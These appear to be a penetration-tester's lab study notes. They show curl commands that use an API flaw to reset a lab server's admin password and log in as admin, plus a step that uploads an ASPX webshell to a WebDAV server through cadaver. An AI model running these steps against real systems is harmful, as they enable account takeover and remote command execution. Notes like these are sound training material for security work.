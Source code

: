 #### Attempting to Change the Administrator Password via a PUT request
```Shell
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```

#### Successfully logging in as the admin account
```Shell
curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```

#### Sending the request to Burp
```Shell
curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login --proxy 127.0.0.1:8080
```

#### Crafting a POST request in Burp for API testing
![[Pasted image 20230501161251.png]]

#### Inspecting the API response value
![[Pasted image 20230501161309.png]]

#### Using the Site Map to organize API testing
![[Pasted image 20230501161343.png]]
Once we've tested a number of different APIs, we could navigate to the Target tab and then Site map. We can then retrieve the entire map of the paths we have been testing so far.

## Additional Techniques from PG Practice
### Using cadaver to take advantage of a web server that allows PUT
```Shell
cadaver 192.168.205.122
```
*Will prompt for username and password*
#### Uploading a webshell using cadaver
```dav
put /usr/share/webshells/aspx/cmdasp.aspx cmdasp.aspx
```